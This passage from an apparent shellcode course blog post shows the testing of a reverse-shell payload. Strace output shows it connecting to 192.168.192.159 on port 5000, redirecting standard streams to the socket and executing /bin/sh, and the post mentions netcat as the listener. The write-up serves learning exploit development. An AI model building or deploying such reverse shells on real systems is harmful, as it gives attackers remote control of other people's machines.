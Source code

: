Resulting opcode we need to copy into skeleton.c, compile and run it.
We can confirm with strace on host machine which IP address and port is called and with netcat on listening machine that connection is sucessfull. 

```
strace ./rev_shell
socket(AF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(5000), sin_addr=inet_addr("192.168.192.159")}, 22) = 0
dup2(3, 2)                              = 2
dup2(3, 1)                              = 1
dup2(3, 0)                              = 0
execve("//bin/sh", ["//bin/sh"], 0xbfcf6cf0 /* 0 vars */) = 0
```
![wrapper test](https://smarinovic.github.io/assets/img/slae_00013.png)

## References ##
![h0mbre](https://h0mbre.github.io/)
![Coffeegist](https://coffeegist.com/)
![Abatchy blog](https://www.abatchy.com/)


